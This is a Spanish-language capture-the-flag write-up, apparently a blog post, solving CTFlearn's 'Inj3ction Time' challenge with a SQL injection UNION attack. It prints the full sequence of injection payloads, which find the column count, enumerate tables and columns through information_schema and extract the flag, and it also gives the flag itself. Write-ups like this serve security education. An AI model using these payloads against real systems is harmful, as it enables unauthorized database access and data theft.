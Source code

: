 ```yaml
---
title: CTFlearn - Inj3ction Time
layout: post
post-image: /assets/images/gatohacker2.jpeg 
description: La resolución del reto Inj3ction Time.
tags:
- ctflearn
- post
- writeups
---
```

# Descripción
---

I stumbled upon this website: http://web.ctflearn.com/web8 and I think they have the flag in their somewhere. UNION might be a helpful command.


# Solución
---

Vemos solo una página que nos pide un ID. Por el título y la descripción sabemos que debemos explotar un **SQLi UNION Attack**.

![](/images/images-ctflearn/injection-time-1.png)

Probamos escribiendo números para saber qué tipo de ID necesita.

![](/images/images-ctflearn/injection-time-2.png)

Si escribimos una letra la página no nos responde, entonces utilizaremos números.

Esto lo hacemos para tener en cuenta la comilla en nuestra inyección `'`. Como estamos trabajando con números no es necesario esta comilla al inicio de nuestra inyección.

![](/images/images-ctflearn/injection-time-3.png)

Primero enumeramos, agregaremos un **null** y después iremos agregando más hasta que la página nos responda correctamente.

```sql
1 union select null-- -
```

![](/images/images-ctflearn/injection-time-4.png)

Vemos que con dos **null** tampoco funciona, así que seguimos agregando.

```sql
1 union select null,null-- -
```

![](/images/images-ctflearn/injection-time-5.png)

Seguimos agregando hasta que llegamos a 4 y la página nos responde correctamente.

```sql
1 union select null,null,null,null-- -
```

![](/images/images-ctflearn/injection-time-6.png)

Ahora buscamos la tabla que contenga la flag, ejecutando una query que nos muestre todas las tablas de la base de datos.

```sql
1 union select table_name,null,null,null from information_schema.tables-- -
```

![](/images/images-ctflearn/injection-time-7.png)

Al final de la página veremos una tabla que destaca.

![](/images/images-ctflearn/injection-time-8.png)

Ahora falta obtener el nombre de la columna donde se encuentra la flag. Para obtener eso ejecutamos la siguiente query que nos devolverá todas las columnas de la base de datos.

```sql
1 UNION SELECT column_name,null,null,null FROM information_schema.columns -- -
```

![](/images/images-ctflearn/injection-time-9.png)

Si vamos al final de la página veremos una que destaca `f0und_m3`.

![](/images/images-ctflearn/injection-time-10.png)

Ya tenemos la tabla y la columna donde está la flag, con esto podemos ejecutar la siguiente query y obtendremos la flag.

```sql
1 UNION SELECT f0und_m3,null,null,null FROM w0w_y0u_f0und_m3 -- -
```

![](/images/images-ctflearn/injection-time-11.png)


# Flag
---

`abctf{uni0n_1s_4_gr34t_c0mm4nd}`

----

## [Anterior](/my-blog)
## [Siguiente](/gobustme)